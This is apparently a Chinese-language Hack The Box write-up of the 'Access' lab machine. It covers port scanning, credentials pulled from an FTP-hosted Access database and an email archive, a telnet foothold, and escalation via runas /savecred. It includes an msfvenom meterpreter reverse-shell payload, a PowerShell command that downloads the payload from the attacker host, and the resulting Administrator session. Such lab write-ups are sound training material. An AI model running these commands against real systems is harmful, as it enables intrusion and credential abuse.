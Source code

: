 # 免责声明
>本文渗透的主机经过合法授权。本文使用的工具和方法仅限学习交流使用，请不要将文中使用的工具和渗透思路用于任何非法用途，对此产生的一切后果，本人不承担任何责任，也不对造成的任何误用或损害负责

# 服务探测
```
┌──(root💀kali)-[~/htb/Access]
└─# nmap -p- 10.10.10.98 --open -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-26 00:42 EST
Stats: 0:10:10 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
Nmap scan report for 10.10.10.98
Host is up (0.30s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
21/tcp open  ftp
23/tcp open  telnet
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 906.88 seconds
                                                                                                                    
┌──(root💀kali)-[~/htb/Access]
└─# nmap -sV -Pn 10.10.10.98 -p 21,23,80                                  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-26 00:58 EST
Nmap scan report for 10.10.10.98
Host is up (0.31s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.88 seconds

```

## ftp

ftp可以匿名登录，但是我用kali连接下载里面的backup.mdb文件总是会中断
```
ftp> get backup.mdb
local: backup.mdb remote: backup.mdb
200 PORT command successful.
125 Data connection already open; Transfer starting.
  0% |                                                                       |  1285        1.25 KiB/s  1:13:20 ETAftp: Reading from network: 被中断的系统调用
  0% |                                                                       |    -1        0.00 KiB/s    --:-- ETA
550 The specified network name is no longer available. 
ftp> 

```

后来我vpn切换到windows，用XFTP完整下载到了这个文件

```
┌──(root💀kali)-[~/htb/Access]
└─# ll
总用量 5532
-rw-r--r-- 1 root root   10870  8月 23  2018 'Access Control.zip'
-rwxrw-rw- 1 root root 5652480  1月 26 02:05  backup.mdb

```

backup.mdb是微软的access数据库文件，需要用微软的办公套件打开，刚好我另一台windows虚拟机安装了，找到auth_user表，找到3组用户凭据
```
admin：admin
engineer：access4u@security
backup_admin：admin
```

```access4u@security```是另一个zip文件的密码，解开得到一个pst文件，pst需要使用outlook打开,但是我用outlook好像找不到邮件，后来我用[这个](https://outlook.recoverytoolbox.com/ch/pst-viewer.html)软件打开

打开以后得到一封邮件：
```
Hi there,

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

Regards,
John

```
得到一组用户凭据
```security:4Cc3ssC0ntr0ller```

使用telnet服务，拿到foothold
```
┌──(root💀kali)-[~/htb/Access]
└─# telnet 10.10.10.98 23
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>ls
'ls' is not recognized as an internal or external command,
operable program or batch file.

C:\Users\security>
```

# 提权

什么是runas命令？
runas就是windows上的特权命令，类似于linux下的sudo。

查看runas用法
```
C:\Users\max>runas
RUNAS 用法:

RUNAS [ [/noprofile | /profile] [/env] [/savecred | /netonly] ]
        /user:<UserName> program

RUNAS [ [/noprofile | /profile] [/env] [/savecred] ]
        /smartcard [/user:<UserName>] program

RUNAS /trustlevel:<TrustLevel> program

   /noprofile        指定不应该加载用户的配置文件。
                     这会加速应用程序加载，但
                     可能会造成一些应用程序运行不正常。
   /profile          指定应该加载用户的配置文件。
                     这是默认值。
   /env              要使用当前环境，而不是用户的环境。
   /netonly          只在指定的凭据限于远程访问的情况下才使用。
   /savecred         用用户以前保存的凭据。
   /smartcard        如果凭据是智能卡提供的，则使用这个选项。
   /user             <UserName> 应使用 USER@DOMAIN 或 DOMAIN\USER 形式
   /showtrustlevels  显示可以用作 /trustlevel 的参数的
                     信任级别。
   /trustlevel       <Level> 应该是在 /showtrustlevels 中枚举
                     的一个级别。
   program           EXE 的命令行。请参阅下面的例子

示例:
> runas /noprofile /user:mymachine\administrator cmd
> runas /profile /env /user:mydomain\admin "mmc %windir%\system32\dsa.msc"
> runas /env /user:user@domain.microsoft.com "notepad \"my file.txt\""

注意:  只在得到提示时才输入用户的密码。
注意:  /profile 跟 /netonly 不兼容。
注意:  /savecred 跟 /smartcard 不兼容。
```

留意参数```  /savecred         用用户以前保存的凭据。```

在靶机上用cmdkey命令查看用户凭据，可以看到保存了Administrator的命令
```
C:\Users\security\Desktop>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
    
    Target: Domain:interactive=WORKGROUP\administrator
                                                          Type: Domain Password
    User: WORKGROUP\administrator
    

```
思路就是使用runas以administrator的权限运行一个反弹shell，从而实现提权。

编译一个反弹shell
```
┌──(root💀kali)-[~/htb/Access]
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.3 LPORT=4444 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

传到靶机
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.3/shell.exe','C:\Users\security\Desktop\shell.exe')"
```

执行命令：

```runas /savecred /user:ACCESS\Administrator C:\Users\security\Desktop\shell.exe ```


收到靶机返回的shell，已经是管理员权限
```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] Sending stage (175174 bytes) to 10.10.10.98
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.10.10.98:49160 ) at 2022-01-26 04:10:18 -0500

meterpreter > getuid
Server username: ACCESS\Administrator

```